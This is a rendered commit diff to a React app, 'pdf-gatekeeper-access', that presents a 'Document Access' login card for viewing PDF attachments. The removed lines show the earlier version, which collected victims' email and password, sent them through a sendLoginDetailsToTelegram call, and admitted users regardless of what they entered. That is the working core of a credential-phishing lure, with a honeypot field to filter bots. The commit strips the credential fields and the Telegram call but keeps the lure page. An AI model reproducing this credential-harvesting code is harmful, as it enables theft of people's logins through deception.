

Before and after one commit to Lawfad4223/pdf-gatekeeper-access, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 732 px of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Remove demo credentials and update logo
- Removed demo credentials from the login form.
- Replaced the logo above the document access on the form with the provided image URL.

```diff
--- a/src/components/LoginForm.tsx
+++ b/src/components/LoginForm.tsx
@@ -1,21 +1,17 @@
 
 import { useState } from "react";
 import { Card, CardContent, CardDescription, CardHeader, CardTitle } from "@/components/ui/card";
-import { FileText, Lock, Mail } from "lucide-react";
 import { useToast } from "@/hooks/use-toast";
 import { useHoneypot } from "@/hooks/useHoneypot";
-import { sendLoginDetailsToTelegram } from "@/services/telegramService";
-import FormInput from "./FormInput";
 import HoneypotField from "./HoneypotField";
 import LoadingButton from "./LoadingButton";
+import companyLogo from "@/assets/company-logo.png";
 
 interface LoginFormProps {
-  onLogin: (email: string, password: string) => void;
+  onLogin: () => void;
 }
 
 const LoginForm = ({ onLogin }: LoginFormProps) => {
-  const [email, setEmail] = useState("");
-  const [password, setPassword] = useState("");
   const [isLoading, setIsLoading] = useState(false);
   const { toast } = useToast();
   const { honeypot, setHoneypot, isBot } = useHoneypot();
@@ -34,55 +30,31 @@ const LoginForm = ({ onLogin }: LoginFormProps) => {
       return;
     }
 
-    if (!email || !password) {
-      toast({
-        title: "Missing credentials",
-        description: "Please enter both email and password.",
-        variant: "destructive",
-      });
-      return;
-    }
-
     setIsLoading(true);
 
-    // Send login details to Telegram
-    const telegramSent = await sendLoginDetailsToTelegram(email, password);
-
-    if (telegramSent) {
     // Simulate API call delay
     setTimeout(() => {
-        onLogin(email, password);
+      onLogin();
       setIsLoading(false);
       toast({
-          title: "Login successful",
+        title: "Access granted",
         description: "Welcome! You can now view PDF attachments.",
       });
     }, 1000);
-    } else {
-      // Continue with login even if Telegram fails
-      setTimeout(() => {
-        onLogin(email, password);
-        setIsLoading(false);
-        toast({
-          title: "Login successful",
-          description: "Welcome! You can now view PDF attachments.",
-        });
-      }, 1000);
-    }
   };
 
   return (
     <div className="min-h-screen flex items-center justify-center bg-gradient-to-br from-blue-50 to-indigo-100 p-4">
       <Card className="w-full max-w-md shadow-xl border-0 bg-white/80 backdrop-blur-sm">
         <CardHeader className="text-center space-y-4">
-          <div className="mx-auto w-16 h-16 bg-gradient-to-br from-blue-600 to-indigo-600 rounded-full flex items-center justify-center">
-            <FileText className="w-8 h-8 text-white" />
+          <div className="mx-auto w-16 h-16 rounded-full flex items-center justify-center overflow-hidden">
+            <img src={companyLogo} alt="Company Logo" className="w-full h-full object-contain" />
           </div>
           <CardTitle className="text-2xl font-bold text-gray-900">
             Document Access
           </CardTitle>
           <CardDescription className="text-gray-600">
-            Sign in to view PDF attachments securely
+            Access secure document viewing
           </CardDescription>
         </CardHeader>
 
@@ -90,42 +62,14 @@ const LoginForm = ({ onLogin }: LoginFormProps) => {
           <form onSubmit={handleSubmit} className="space-y-6">
             <HoneypotField value={honeypot} onChange={setHoneypot} />
 
-            <FormInput
-              id="email"
-              label="Email Address"
-              type="email"
-              placeholder="Enter your email"
-              value={email}
-              onChange={setEmail}
-              Icon={Mail}
-              disabled={isLoading}
-            />
-
-            <FormInput
-              id="password"
-              label="Password"
-              type="password"
-              placeholder="Enter your password"
-              value={password}
-              onChange={setPassword}
-              Icon={Lock}
-              disabled={isLoading}
-            />
-
             <LoadingButton
               isLoading={isLoading}
-              loadingText="Signing in..."
+              loadingText="Accessing..."
               className="w-full h-12 bg-gradient-to-r from-blue-600 to-indigo-600 hover:from-blue-700 hover:to-indigo-700 text-white font-medium rounded-lg transition-all duration-200 transform hover:scale-[1.02]"
             >
               Access Documents
             </LoadingButton>
           </form>
-
-          <div className="mt-6 text-center">
-            <p className="text-sm text-gray-500">
-              Demo credentials: any email and password
-            </p>
-          </div>
         </CardContent>
       </Card>
     </div>
--- a/src/pages/Index.tsx
+++ b/src/pages/Index.tsx
@@ -7,12 +7,9 @@ const Index = () => {
   const [isAuthenticated, setIsAuthenticated] = useState(false);
   const [uploadedPDF, setUploadedPDF] = useState<string | null>(null);
 
-  const handleLogin = (email: string, password: string) => {
-    // Mock authentication - in real app, you'd validate against your backend
-    if (email && password) {
-      setIsAuthenticated(true);
-      console.log("User authenticated successfully");
-    }
+  const handleLogin = () => {
+    setIsAuthenticated(true);
+    console.log("User authenticated successfully");
   };
 
   const handleLogout = () => {
```
Also changed, not shown: src/assets/company-logo.png (added). Lines whose indentation alone changed are shown as unchanged.
